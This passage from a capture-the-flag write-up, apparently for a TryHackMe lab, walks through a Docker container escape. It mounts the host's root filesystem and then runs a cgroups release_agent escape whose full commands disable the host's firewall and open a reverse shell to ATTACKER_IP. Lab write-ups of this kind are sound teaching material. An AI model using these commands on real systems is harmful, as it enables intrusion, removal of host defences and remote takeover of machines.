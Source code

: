 Before going on with the intended escape, it is worth mentioning that we can take a "shortcut" of sorts. Given that we have access to all drives, we can also mount the `/` filesystem of the host.

```bash
mkdir /mnt/host
mount /dev/dm-0 /mnt/host
```

![Mounting the Host](https://github.com/IngoKl/THM-Hamlet/blob/main/solution/mount-host.png)

As the host uses [LVM](https://en.wikipedia.org/wiki/Logical_volume_management), the device (`dm-0`, a logical device) looks a little different from the usual `/dev/sda`. Nevertheless, we can mount it within the container. Now, having access to the root filesystem, we could read the flags or add our own SSH keys. Of course, SSH'ing into a server is probably a little "louder" than the method we will now pursue. That said, SSH is a lot more stable than establishing a reverse shell.

Having confirmed that we have elevated right, we can use a relatively [common method](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), a *release_agent cgroups escape*, to escape from the container. This trick does not rely on any sort of exploit, but on cleverly 'abusing' `Docker` functionality. Here, we are specifically abusing the `release_agent` for our escape. Definitely read up on the mechanics – it's super interesting!

We will listen on port 1603 using `nc -nlvp 1603` on our attacker while executing a series of commands in our container as root:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# Disable UFW
echo '#!/bin/bash' > /cmd
echo "ufw --force disable" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reverse Shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/ATTACKER_IP/1603 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
